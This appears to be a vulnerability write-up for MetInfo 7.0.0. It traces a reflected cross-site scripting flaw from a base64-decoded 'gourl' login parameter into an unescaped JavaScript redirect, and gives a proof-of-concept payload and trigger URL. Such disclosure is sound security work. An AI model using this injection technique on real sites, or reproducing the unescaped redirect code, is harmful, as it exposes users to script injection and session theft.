

1：Download address：https://u.mituo.cn/api/metinfo/download/7.0.0

####Vulnerability analysis：

in /app/system/user/web/login.class.php
```

if ($_M['form']['gourl']) {
            $_M['url']['user_home'] = base64_decode($_M['form']['gourl']);
            if (strpos($_M['url']['login'], 'lang=')) {
                $_M['url']['login'] .= "&gourl=" . $_M['form']['gourl'];
            } else {
                $_M['url']['login'] .= "?gourl=" . $_M['form']['gourl'];
            }
        }
```
```
Known $_M [' url '] [' user_home] this parameter from $_M [' form '] [' gourl] base64 decoding,
And $_M['form']['gourl'], the url gourl parameter, bypasses filtering because it is base64 decoded
```

When the user logs in,
Enter the okinfo() function

This function is in：\app\system\include\function\common.func.php
```
function okinfo($url, $langinfo = '')
{
    //用于十合一小程序判断
    if (isset($_POST['device_type']) && $_POST['device_type'] == 'miniprogram') {
        header('Content-Type:application/json; charset=utf-8');
        if ($url == '-1' || $url == 'javascript:history.back();') {
            $return['status'] = 0;
            $msg = '操作失败';
        } else {
            $return['status'] = 1;
            $msg = '操作成功';
        }
        $return['msg'] = $langinfo ? $langinfo : $msg;
        $return_data = json_encode($return);
        exit($return_data);
    }

    if ($langinfo) {
        $langstr = "alert('{$langinfo}');";
    }

    if ($url == '-1') {
        $js = 'window.history.back();';
    } else {
        $js = "location.href='{$url}';";
    }
    echo "<script type='text/javascript'>{$langstr} {$js} </script>";
    die();
}
```
```
Analysis:
Okinfo ($_M [' url '] [' user_home ']);
The parameter $url is $_M['url']['user_home'], and $langinfo is empty
So to enter:
if ($url == '-1') {
        $js = 'window.history.back();';
    } else {
        $js = "location.href='{$url}';";
    }
    echo "<script type='text/javascript'>{$langstr} {$js} </script>";

Visible in the js code, visible cross-site scripting vulnerability
```

#### 
Required code 
```
';alert(1);</script><!--
```
after Base64 encryption :  
```
JzthbGVydCgxKTs8L3NjcmlwdD48IS0t 
```

### poc
 Registered account test  
 Login account test

click
```
path + /member/login.php?gourl=JzthbGVydCgxKTs8L3NjcmlwdD48IS0t&a=doindex
```
Successful attack



 
